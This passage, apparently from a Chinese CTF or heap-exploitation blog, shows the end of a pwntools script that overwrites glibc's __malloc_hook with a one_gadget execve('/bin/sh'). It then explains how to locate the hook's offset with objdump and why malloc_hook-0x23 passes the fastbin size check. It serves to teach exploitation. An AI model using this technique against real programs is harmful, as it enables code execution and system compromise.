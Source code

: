 ```assembly

    0xf1147 execve("/bin/sh", rsp+0x70, environ)
    constraints:
      [rsp+0x70] == NULL
    '''
# 为了改写malloc_hook的内容，
# 需要计算从malloc_hook-0x23开始填充的字节数
# 由于fill函数填充的是chunk的user data部分，
# 所以跳过了chunk header部分，
# -0x23 + 0x10 = -0x13
payload = "a" * 0x13 + p64(one_gadget)

fill(4, payload)
allocate(1)

io.interactive()
```

objdump查看系统对应版本glibc中__malloc_hook的偏移量

-D表示对全部文件进行反汇编

-m表示指令集架构

```assembly
$ objdump libc.so.6 -D -M intel | grep __malloc_hook
...
00000000003c4b10 <__malloc_hook@@GLIBC_2.2.5>:
```

得到偏移 **0x3c4b10**，加上当前系统glibc加载时的基址 **0x00007ffff7a0d000** 推算出程序运行时其在内存中的位置为 **0x00007ffff7dd1b10**。

但是由于0x7ffff7dd1b10地址的指定偏移处的size成员数值不能够满足glibc的检测，因此我们需要在__malloc_hook地址附近找一块合适的地址作为我们的攻击目标。下图可以看出0x7ffff7dd1b10地址的数值都为0不符合要求。

![]({{site.baseurl}}/img/2021-02-03-zero.jpg)

通过尝试发现，**0x7ffff7dd1b10-0x23**地址处的指定8字节偏移处的数值能够满足glibc的检测，所以我们最终把0x7ffff7dd1b10-0x23=0x7ffff7dd1aed地址作为我们的攻击目标。从下图可以看出，**0x7ffff7dd1b10-0x23**地址的数值为0x7f，满足size成员的要求。

![]({{site.baseurl}}/img/2021-02-03-0x7f.jpg)

